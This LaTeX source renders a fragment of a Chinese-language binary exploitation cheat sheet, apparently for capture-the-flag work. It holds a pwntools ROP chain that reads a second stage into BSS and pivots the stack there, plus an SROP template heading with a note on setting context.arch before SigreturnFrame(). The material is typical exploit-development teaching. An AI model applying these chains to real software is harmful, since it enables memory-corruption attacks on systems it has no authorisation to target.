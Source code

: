 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\renewenvironment{quote}{%
  \begin{mdframed}[linewidth=0pt,innerleftmargin=0pt,innerrightmargin=0pt,
    innerbottommargin=0pt,innertopmargin=0pt,skipabove=0.55em,skipbelow=0.55em,
    leftmargin=0.9em,rightmargin=0.4em,startcode={\color{quotebar}\vrule width 2.6pt},%
    endcode={}]%
  \itshape\color{black}%
}{%
  \end{mdframed}%
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{payload  }\OperatorTok{=}\NormalTok{ p64(POP\_RDI) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{)       }\CommentTok{\# fd = stdin}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RSI) }\OperatorTok{+}\NormalTok{ p64(BSS)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RDX) }\OperatorTok{+}\NormalTok{ p64(}\BaseNTok{0x400}\NormalTok{)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(READ\_PLT)}
\NormalTok{payload }\OperatorTok{+=}\NormalTok{ p64(POP\_RSP) }\OperatorTok{+}\NormalTok{ p64(BSS)     }\CommentTok{\# 之後的鏈從 BSS 接}
\end{Highlighting}
\end{Shaded}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsubsection{6. SROP 模板}\label{srop-ux6a21ux677f}

\begin{quote}
※注意 用 \texttt{SigreturnFrame()} 之前一定要先設
\texttt{context.\allowbreak{}arch\ \allowbreak{}=\ \allowbreak{}\textquotesingle{}\allowbreak{}amd64\textquotesingle{}\allowbreak{}} （或
\texttt{context.\allowbreak{}clear(arch=\textquotesingle{}\allowbreak{}amd64\textquotesingle{}\allowbreak{})}），否則
pwntools 會直接報
\texttt{{[}ERROR{]}\ \allowbreak{}kernel\ \allowbreak{}architecture\ \allowbreak{}must\ \allowbreak{}be\ \allowbreak{}specified}。
這就是兩支 exploit 開頭都有那行的原因。
\end{quote}
\end{document}
